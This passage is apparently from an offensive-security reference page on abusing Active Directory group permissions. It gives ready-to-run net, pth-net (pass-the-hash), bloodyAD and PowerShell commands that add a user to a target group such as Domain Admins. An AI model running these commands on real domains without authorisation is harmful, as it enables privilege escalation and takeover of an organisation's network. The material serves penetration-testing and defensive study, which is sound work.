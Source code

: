 This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.
=== "UNIX-like"
    It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with pass-the-hash.
    ```bash
    # With net and cleartext credentials (will be prompted)
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

    # With net and cleartext credentials
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

    # With Pass-the-Hash
    pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
    ```
    Alternatively, it can be achieved using bloodyAD
    ```bash
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember "$TargetGroup" "$TargetUser"
    ```
=== "Windows"
    The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with Add-DomainGroupMember (PowerView module)
    ```bash
    # Command line
    net group 'Domain Admins' 'user' /add /domain

    # Powershell: Active Directory module
    Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

    # Powershell: PowerSploit module
    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
    ```